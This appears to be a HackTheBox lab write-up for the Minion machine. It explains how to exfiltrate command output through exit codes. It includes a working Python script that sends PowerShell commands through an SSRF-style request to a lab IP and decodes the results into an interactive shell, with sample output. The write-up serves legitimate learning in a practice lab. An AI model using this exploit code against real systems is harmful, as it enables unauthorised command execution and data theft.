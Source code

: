 ```yaml
---
layout: post
title:  "HackTheBox - Minion Error Code Exfiltration"
date:   2018-04-16 01:00:00 +0100
categories: [hackthebox]
description: "For I was Blind but now I see!"
image:
  feature: minion.jpg
  credit:

---
```


This is a writeup of an alternative technique for [Minion](https://www.hackthebox.eu/home/machines/profile/109), which involves exfiltrating data via error codes. All credits for this technique go to [@m0noc](https://twitter.com/overtsecrecy) who actually made this work and used it to pwn Minion.

The Situation
-------------
In Minion we had command execution which returned the exit code of the command called. 0 for success and 1 for failure. In reality, the exit code is entirely controllable by the caller of any process. e.g.

PS C:\Users\Booj> powershell -c 'exit 1234'
PS C:\Users\Booj> echo $lastexitcode
1234
The error code is a 32 bit signed integer so we have a maximum of 4 bytes. Since a character only takes up a single byte (ascii), we can encode any sequence of characters within a sequence of error codes.

Proof of Concept
--------------
In this proof of concept we run a command and save the result to a file, returning as the first exit code the length of the result. We then sequentially send commands to fetch and output each 4 byte sequence as an error code, decoding on our end and yielding a basic shell.
```python
import requests
import sys
import urllib2

'''
Command Creation
'''
def get_cmd_length(command):
    cmd =  '$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
    return cmd

def error_exfil(command, output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd

def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')

'''
Command Sending and Receiving
'''

def run_on_minion(command):

    url = 'http://10.10.10.57:62696' 
    base_url = "/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=" 
    pshell = "powershell -Command \"{0}\"".format(command)
    req = requests.get(url+base_url+urllib2.quote(pshell)) 
    #TODO filter this properly 
    result = req.text 
    error_code = [x.split('=')[1] for x in result.split('\n') if "Exit Status" in x][0]
    return error_code 

'''
Main Loop
'''

def main():
    while True:
        cmd = raw_input('PS>')
        len_cmd = get_cmd_length(cmd)
        length_of_command = run_on_minion(len_cmd)
        for torun in error_exfil(cmd, length_of_command):
            errorval = run_on_minion(torun)
            decodedval = decode_error(errorval)
            sys.stdout.write(decodedval)
            sys.stdout.flush()
        sys.stdout.write('\n')
        sys.stdout.flush()


if __name__ == '__main__':
    main()
```
It should work as is and give us a very slow shell!
```
root@kali:~# python minionerr.py 
PS>whoami
iis apppool\defaultapppool
There are probably ways to improve it, but for now this works as a basic poc.
```
That's all folks!
